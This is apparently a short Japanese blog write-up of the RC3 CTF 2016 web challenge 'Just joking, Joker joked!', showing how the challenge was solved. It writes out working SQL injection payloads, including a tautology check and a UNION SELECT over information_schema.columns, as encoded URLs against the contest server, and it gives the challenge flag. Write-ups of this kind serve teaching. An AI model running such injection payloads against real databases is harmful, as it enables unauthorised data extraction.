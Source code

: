 ```yaml
---
layout: post
alias: "/blog/2016/11/21/rc3-ctf-2016-just-joking/"
date: "2016-11-21T17:47:17+09:00"
tags: [ "ctf", "writeup", "rc3-ctf", "web", "sql-injection", "guessing" ]
---
```


# RC3 CTF 2016: \"Just joking,\" Joker joked!

`' or 1 = 1 -- `で確認できる自明sqliがある。
そのまま`' union select table_schema, table_name, column_name from information_schema.columns -- `とするとDBの中身が見える。後はたくさんあるtableを端から順に見ていって探す。

`flag.welcome`に`pcbfcppgle`とありcaesarしたら`redherring`になるが、これははずれ。
`CCNs.secrets`にあるmd5っぽい文字列をdecryptorに投げると`RC3-2016-HAHAHAHA`が登録されていて、これがflag。
まったく同じinjectionができるDBがふたつあったが、理由は不明のまま。後の問題用か。

-   <https://ctf.rc3.club:2010/connect.php?primary=%27+union+select+table_schema%2C+table_name%2C+column_name+from+information_schema.columns+--+>
-   <https://ctf.rc3.club:2010/connect.php?primary=%27+union+select+*+from+CCNs.secrets+--+>
